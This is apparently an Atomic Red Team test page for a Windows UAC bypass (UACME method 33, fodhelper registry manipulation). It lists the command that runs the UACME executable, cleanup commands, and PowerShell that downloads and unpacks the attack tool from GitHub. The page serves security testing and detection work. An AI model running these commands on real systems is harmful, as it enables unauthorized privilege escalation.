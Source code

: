 
<br/>
<br/>

## Atomic Test #12 - UACME Bypass Method 33
Executes User Account Control Bypass according to the methods listed below. Upon successful execution you should see event viewer load and two administrative command prompts.
Note: The cleanup_command's which kill the spawned cmd and event viewer processes only work if run as admin.

Author: winscripting.blog

Type:	Shell API

Method: Registry key manipulation

Target:	\system32\fodhelper.exe

Component:	Attacker defined

Implementation:	ucmShellRegModMethod

UCM Method:	UacMethodMsSettings2

https://github.com/hfiref0x/UACME

**Supported Platforms:** Windows


**auto_generated_guid:** e514bb03-f71c-4b22-9092-9f961ec6fb03





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| uacme_exe | Path to uacme executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;uacme&#92;33 Akagi64.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{uacme_exe}"
```

#### Cleanup Commands:
```cmd
powershell Stop-Process -Name cmd -Force -ErrorAction Ignore
powershell Stop-Process -Name mmc -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: UACME executable must exist on disk at specified location ("#{uacme_exe}")
##### Check Prereq Commands:
```powershell
$tempPath = cmd /c echo #{uacme_exe}
if (Test-Path "$tempPath") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1548.002/bin/uacme.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" "PathToAtomicsFolder\..\ExternalPayloads\uacme" -Force
```